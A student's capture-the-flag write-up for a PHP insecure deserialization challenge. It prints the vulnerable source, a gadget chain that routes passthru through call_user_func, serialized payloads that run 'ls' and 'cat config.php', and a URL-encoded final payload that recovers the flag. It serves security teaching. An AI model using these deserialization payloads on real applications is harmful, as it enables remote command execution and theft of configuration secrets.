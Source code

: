 # CTF Challenge with Group ✌
- **Insecure Deserialization**:<br>
- **Subject:** CTF Challenge in Secure Programming and Exploiting Vulnerabilities subject<br>
- **Team:** Blackberries<br>
- **Link:** http://45.122.249.68:10001/

## Write Up:<br>
- Enter link, we see a PHP code
```
<?php
#include "config.php";
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
?>
```
- There are 3 main classes:  `User`, `Show_color` and `do_nothing`<br>
- The "main" code:
```
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
```
The code above will get the value of `code` in URL through `$_GET[]` and `unserialize` the variable `code` . In case `code` is **null** then show the code like being - `highlight_file(__FILE__);`.There are two another function `__construct()` và `__destruct()` and this is the good case for **insecure deserialization** with `unserialize` has no verify-input job so we can take advantage of this to exploit
- We notice that `User` class seems strange when a line shows  `admin=false`and when `admin=true` then print `"hi admin, here is your flag"`. So we trying to serialize the `User` object.
```
$a = new User('name');
$b = serialize($a);
echo $b;
```
Serialized string: `O:4:"User":2:{s:10:"Username";s:4:"name";s:14:"Useris_admin";b:0;}`.
Change the value `admin` into `true`-> Change `b:0` into `b:1`. Give this to `$code` in URL: 
http://45.122.249.68:10001?code=O:4:"User":2:{s:10:"Username";s:4:"name";s:14:"Useris_admin";b:1;}
We only see a blank page and nothing special with source code (Ctrl + U)
- According to next 2 classes, they're likely to be vulnerable cause in class `Show_color`, it uses `call_user_func()`. With this, we can execute our desired command with the first parameter is the function, the second one is the parameter for the precede function. For more details, see [here](https://www.php.net/manual/en/function.call-user-func). Considering some functions that allow us to **execute shell**: `exec()`, `shell_exec()`, `system()`, `passthru()`, which `system()` and `passthru()` are the best use cases (as I think) cause it's easy to use.
- Next, we think how to put that **excute shell** in classes's methods. 
```
public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
```
- As recommendation,  `passthru()` is passed into first parameter and `ls` will be the second. But the problem here, with second one we can transfer `ls` into `$color`through **constructor** but can not transfer `passthru` into the first cause its operation `$this->type->adu`, we have to manage to set `$this-type` as an object and `adu` would be the member or method.
- Take a look at `do_nothing`class, there is a fucntion `__get()`.This is one of [Magic Methods](https://www.php.net/manual/en/language.oop5.magic.php) to override the reserved function by PHP. `__get()` take a parameter as a member or method. In the code, function `__get()` return  `this ->i_use_this` when  `this->why` is not empty. 
### Solution:
- Create instance  `do_nothing` with 2 parameters `123` (Optional value)  and `passthru`. 
- Create instance`Show_color` with 2 parameters **do_nothing object** above and the command we want to execute ex. `ls`. 
- Sau đó `serialize` đối tượng  `Show_color`
**Sample**:
```
$a = new do_nothing(123,"passthru");
$b = new Show_color($a,"ls");
$code = serialize($b);
echo $code;
```
Output:
`O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:123;s:10:"i_use_this";s:8:"passthru";}}`
- Send to  var `code` and send request to reload page <br>

<p align="center">
  <img src="https://user-images.githubusercontent.com/48288606/138675519-6fc911d4-823a-405a-b6f8-a74da4e05dec.png">
</p>

- There are 2 files. The command was executed successfully, we can review the logic flow as the following: Take a deep in the line `call_user_func($this->type->adu,$this->color);`. `$this->type` will become `$a`, means it will operate this `call_user_func($a->adu,$this->color);`. How about `$a->adu` was processed? Back again in `__get($method)` . And `$method` here is `adu`, this `$method` is actually do nothing, `$this->why` is set **null** to run the **block code** inside `return $this->i_use_this;` , it's equivalent to `return passthru($command)` with **$command** we have set above - `ls`.
- Afterthat, we try read file `config.php` first. Change `ls` into `cat config.php` , serialize again and do the similar with all the step above
Payload: O:10:"Show_color":2:{s:5:"color";s:13:"cat config.php";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:123;s:10:"i_use_this";s:8:"passthru";}}

<p align="center">
  <img src="https://user-images.githubusercontent.com/48288606/138678027-6bf37d9f-08e8-4fc4-a663-242a7e406030.png">
</p>

Seem not work? We take a consideration the variable we handle when manipulate all the value through URL, which will be affected by **URL Encode**. So in `cat index.php` it was the "space" in the string that will be encoded. For working properly, we should encode the payload

<p align="center">
  <img src="https://user-images.githubusercontent.com/48288606/138679801-71a74d2a-a376-478c-a92f-29e0da356e67.png">
</p>

**Final Payload**: %4f%3a%31%30%3a%22%53%68%6f%77%5f%63%6f%6c%6f%72%22%3a%32%3a%7b%73%3a%35%3a%22%63%6f%6c%6f%72%22%3b%73%3a%31%34%3a%22%63%61%74%20%63%6f%6e%66%69%67%2e%70%68%70%22%3b%73%3a%34%3a%22%74%79%70%65%22%3b%4f%3a%31%30%3a%22%64%6f%5f%6e%6f%74%68%69%6e%67%22%3a%32%3a%7b%73%3a%33%3a%22%77%68%79%22%3b%69%3a%31%32%33%3b%73%3a%31%30%3a%22%69%5f%75%73%65%5f%74%68%69%73%22%3b%73%3a%38%3a%22%70%61%73%73%74%68%72%75%22%3b%7d%7d
- Blank page, check the source code.
```
<?php
$flag = "flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}";
?>
```
**=>flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}**
